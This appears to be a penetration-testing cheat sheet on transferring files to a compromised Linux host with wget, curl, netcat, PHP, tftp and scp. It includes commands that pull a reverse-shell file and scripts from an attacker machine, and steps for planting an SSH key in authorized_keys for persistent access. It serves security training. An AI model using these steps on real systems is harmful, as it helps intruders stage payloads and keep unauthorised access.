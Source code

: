 # Transfering Files on Linux

## Set Up a Simple Python Webserver <a id="set-up-a-simple-python-webserver"></a>

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
python -m SimpleHTTPServer 9999
```

## Wget <a id="wget"></a>

You can download files using `wget` like this:

```text
wget 192.168.1.102:9999/file.txt
```

download a directory recursively and eliminate obligatory index.html

```text

wget -r -np -R "index.html*" http://10.10.10.78:7000/LinPost
```

## Curl <a id="curl"></a>

```text
curl -O http://192.168.0.101/file.txt
```

## Netcat <a id="netcat"></a>

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```text
nc -lvp 4444 < file
```

On target machine:

```text
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```text
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```text
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```text
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```text
nc -l 1234 > file.sh
```

## With php <a id="with-php"></a>

```text
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp <a id="ftp"></a>

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

or

If ftp anonymous login is provided or you have login details, you can download the contents by wget, \(For anonymous login user password are not required\)

```text
wget -rq ftp://IP --ftp-user=username --ftp-password=password
```

## Tftp <a id="tftp"></a>

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP <a id="ssh---scp"></a>

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.  
Then you need to do two things.

1. Create a new keypair

You do that with:

```text
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey  
Enter passphrase \(empty for no passphrase\):  
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`.  
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```text
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```text
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP <a id="scp"></a>

Now we can copy files to a machine using `scp`

```text
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

